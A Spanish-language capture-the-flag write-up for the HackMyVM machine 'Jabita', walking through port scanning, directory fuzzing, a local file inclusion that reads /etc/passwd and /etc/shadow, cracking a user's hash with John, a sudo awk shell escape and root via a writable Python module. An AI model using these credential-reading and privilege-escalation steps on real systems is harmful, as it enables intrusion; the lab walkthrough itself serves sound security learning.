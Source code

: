 ```yaml
---
layout: post
title: Jabita
date: 2022-11-27
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Enumeration]
---
```


# Jabita [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.115 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.115 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Una vez entramos en la página vemos un texto sin relevancia, como no vemos ningún hipervínculo ni comentarios en el código de la página pazaremos a `fuzzear` la página, para ello utilizaremos `WFuzz`, una herramienta hecha en `Python` que nos ayudará en la búsqueda de directorios.
- `wfuzz -u "http://192.168.1.115/FUZZ" -w directory-list-2.3-medium.txt --hc 404`

Tras esperar unos segundos veremos un resultado, `building`. Si inspeccionamos la página veremos que ahora sí hay algo más, arriba vemos tres hipervínculos, los cuales tienen un parámetro que nos llama la atención, `page=`, vamos a ver si es vulnerable a `LFI`.

- `curl http://192.168.1.115/building/index.php?page=/etc/passwd`

```
[...]
root:x:0:0:root:/root:/bin/bash
[...]
jack:x:1001:1001::/home/jack:/bin/bash
jaba:x:1002:1002::/home/jaba:/bin/bash
```

Bien! Vemos que sí es vulnerable! Tras un intento fallido de listar la `id_rsa` de los usuarios `jack` y `jaba` por curiosidad probé con `/etc/shadow`, un archivo el cual (generalmente) está protegido, aunque no es el caso.

```
[...]
jack:$6$xyz$FU1GrBztUeX8krU/94RECrFbyaXNqU8VMUh3YThGCAGhlPqYCQryXBln3q2J2vggsYcTrvuDPTGsPJEpn/7U.0:19236:0:99999:7:::
jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7:::
```

Además el hash de `root` (el cual no es crackeable) vemos otros dos hashes, el de `jack` y el de `jaba` (tampoco es crackeable), por lo que vamos a copiarnos esa información y con `John` crackear la contraseña de `Jack`.

- `john hash.txt -w=/usr/share/wordlists/rockyou.txt`

Bien! `John` ha sido capaz de crackear al contraseña (`jack:joaninha`)!

### Subida de privilegios #1
Bien, ahora que ya estamos en la máquina por `SSH` tenemos que convertirnos en `jaba` para luego poder convertirnos en `root`, para ello comenzé por hacer `sudo -l`:

```
Matching Defaults entries for jack on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jack may run the following commands on jabita:
    (jaba : jaba) NOPASSWD: /usr/bin/awk
```

Como vemos `Jack` puede ejecutar `AWK` como el usuario `Jaba` sin proporcionar contraseña, para poder explotarlo nos vamos a [`GTFObins`](https://gtfobins.github.io/gtfobins/awk/#sudo), el cual nos dice cómo hacerlo.

- `sudo -u jaba awk 'BEGIN {system("/bin/sh")}'`

Estupendo! Ya estamos en la máquina como `Jaba`!

### Subida de privilegios #2
Bien, ahora que ya hemos escalado privilegios ya podemos pasar a ser `root`, para ello vuelvo a ejecutar `sudo -l`.

```
Matching Defaults entries for jaba on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jaba may run the following commands on jabita:
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```

Como vemos podemos ejecutar con `Python` un `script` llamado `clean.py` como `root`. Si lo ejecutamos sólo nos saldrá un simple `Hello`. Por desgracia no podemos escribir en este archivo, pero vemos que está importando un módulo llamado `wild`, vamos a buscarlo:

- `find / -iname wild.py 2>/dev/null`

```
/usr/lib/python3.10/wild.py
```

Vemos que nos ha salido un resultado, si abrimos el archivo veremos lo siguiente:

```Python
def first():
    print("Hello")
```

Vemos que concuerda y además podemos escribir, por lo que podemos hacer que nos otorgue una Shell añadiendo lo siguiente:

```Python
def first():
    print("Hello")
import os
os.system("/bin/bash")
```

Bien! Tras volver a ejecutar el fichero como `root` hemos podido ganar la Shell! Qué fácil!
